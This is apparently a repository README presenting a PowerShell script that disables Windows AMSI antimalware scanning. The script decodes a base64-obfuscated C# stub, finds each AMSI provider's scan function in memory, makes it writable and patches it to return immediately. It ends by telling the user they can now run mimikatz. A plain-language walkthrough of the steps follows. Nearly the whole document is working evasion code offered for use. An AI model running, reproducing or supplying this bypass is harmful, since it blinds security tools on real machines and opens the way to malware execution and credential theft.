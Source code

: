 ## Overview

This repository houses a PowerShell script engineered to circumvent the AMSI. AMSI serves as a security feature, allowing integration with antivirus and antimalware products to bolster threat protection. 

## Script
```pwsh
$g = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('dXNpbmcgU3lzdGVtOw0KdXNpbmcgU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzOw0KcHVibGljIGNsYXNzIEFwaXMgew0KICBbRGxsSW1wb3J0KCJrZXJuZWwzMiIpXQ0KICBwdWJsaWMgc3RhdGljIGV4dGVybiBib29sIFZpcnR1YWxQcm90ZWN0KEludFB0ciBscEFkZHJlc3MsIFVJbnRQdHIgZHdTaXplLCB1aW50IGZsTmV3UHJvdGVjdCwgb3V0IHVpbnQgbHBmbE9sZFByb3RlY3QpOw0KICBbRGxsSW1wb3J0KCJhbXNpIildDQogIHB1YmxpYyBzdGF0aWMgZXh0ZXJuIGludCBBbXNpSW5pdGlhbGl6ZShzdHJpbmcgYXBwTmFtZSwgb3V0IEludDY0IGNvbnRleHQpOw0KfQ=='))

Add-Type $g

$r = [Convert]::FromBase64String('uLgA/wDD')
$y = 0; $i = 0
$SIZE_OF_PTR = 8
[Int64]$z = 0

# Initializing AMSI
try {
    [Apis]::AmsiInitialize("MyScanner", [ref]$z)
    Write-Host "AMSI initialized successfully. Context: $z"

    # Retrieve pointers for AMSI providers
    $b = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$z, 16)
    Write-Host "Providers pointer: $b"

    $c = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$b, 64)
    Write-Host "Initial provider pointer: $c"
} catch {
    Write-Host "Error during AMSI initialization or pointer retrieval: $_"
    exit 1
}

# Iterate through AMSI providers
try {
    while ($c -ne 0) {
        $d = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$c)
        $e = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$d, 24)
        Write-Host "[$i] Provider's scan function found at address: $e"

        if (![Apis]::VirtualProtect($e, [uint32]6, 0x40, [ref]$y)) {
            throw "Failed to change memory protection at address: $e"
        }

        [System.Runtime.InteropServices.Marshal]::Copy($r, 0, [IntPtr]$e, 6)
        Write-Host "[$i] Scan function patched successfully."

        $i++
        $c = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$b, 64 + ($i * $SIZE_OF_PTR))
    }
    Write-Host "Patching completed successfully."
    Write-Host "You can Invoke mimikatz now (: "
} catch {
    Write-Host "Error during provider iteration and patching: $_"
    exit 1
}
```



## Script Approach
**Initializing AMSI and Retrieving Pointers**: 
The script starts by setting up AMSI and getting pointers, which are like signposts pointing to important parts of AMSI.

**Finding Scan Functions**: 
It then looks through these pointers to find where AMSI does its scanning work, kind of like finding where a detective does their investigation.

**Patching Scan Functions with RET 0**: 
When it finds these scanning spots, the script changes them so that when they're called, they immediately stop and say "everything's okay." This makes the scans skip right over any potentially harmful stuff.

**Changing Memory Access**: 
Before making these changes, the script adjusts the way the computer sees these scanning spots so it can make changes to them, kind of like getting permission to edit a document.

**Covering All Bases**: 
The script repeats these steps for every way AMSI does its scanning, ensuring that no matter how AMSI checks for bad stuff, the script can sneak past it.
